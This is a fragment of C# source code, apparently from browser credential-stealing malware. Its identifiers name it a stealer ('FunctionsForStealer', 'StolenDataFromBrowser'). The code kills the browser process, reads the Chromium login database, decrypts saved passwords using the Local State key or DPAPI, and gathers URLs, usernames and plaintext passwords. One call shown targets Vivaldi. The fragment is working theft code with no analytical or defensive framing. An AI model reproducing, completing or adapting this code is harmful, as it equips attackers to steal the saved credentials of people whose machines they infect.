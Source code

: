 ```csharp
                    DecryptBrowserPasswords(Variables.LoginDataPathVivaldi, FunctionsForStealer.LocalStateKeys.GetKeyVivaldi(), "Vivaldi.txt", "vivaldi", out Variables.isVivaldiFound, out Variables.foundVivaldiPasswords);
                }
            }

            public static void DecryptBrowserPasswords(string pathToLoginData, byte[] localState, string nameTxt, string nameBrowser, out string isFoundBrowser, out int foundPasswordsThisBrowser)
            {
                foundPasswordsThisBrowser = 0;

                try
                {
                    ProcessBrowserKill(nameBrowser);
                    string content = "";
                    string connectionString = $"Data Source={pathToLoginData};Version=3;";
                    using (SQLiteConnection sqliteConnection = new SQLiteConnection(connectionString))
                    {
                        sqliteConnection.Open();
                        List<StolenDataFromBrowser> passwords = new List<StolenDataFromBrowser>();
                        using (SQLiteCommand sqliteCommand = new SQLiteCommand("select * from logins", sqliteConnection))
                        {
                            using (SQLiteDataReader sqliteDataReader = sqliteCommand.ExecuteReader())
                            {
                                while (sqliteDataReader.Read())
                                {
                                    byte[] encryptedPassword = (byte[])sqliteDataReader["password_value"];
                                    if (FunctionsForStealer.FunctionsForDecrypt.IsV10(encryptedPassword))
                                    {
                                        byte[] iv, salt;
                                        FunctionsForStealer.FunctionsForDecrypt.Prepare(encryptedPassword, out iv, out salt);
                                        string decryptedPassword = FunctionsForStealer.FunctionsForDecrypt.Decrypt(salt, localState, iv);

                                        if (!string.IsNullOrEmpty(decryptedPassword))
                                        {
                                            Variables.allFoundPasswords++;
                                            foundPasswordsThisBrowser++;
                                            passwords.Add(new StolenDataFromBrowser
                                            {
                                                url = sqliteDataReader["origin_url"].ToString(),
                                                username = sqliteDataReader["username_value"].ToString(),
                                                password = decryptedPassword
                                            });
                                        }
                                    }
                                    else
                                    {
                                        try
                                        {
                                            Encoding.UTF8.GetString(ProtectedData.Unprotect(encryptedPassword, null, DataProtectionScope.CurrentUser));
                                        }
                                        catch { }
                                    }
                                }
```
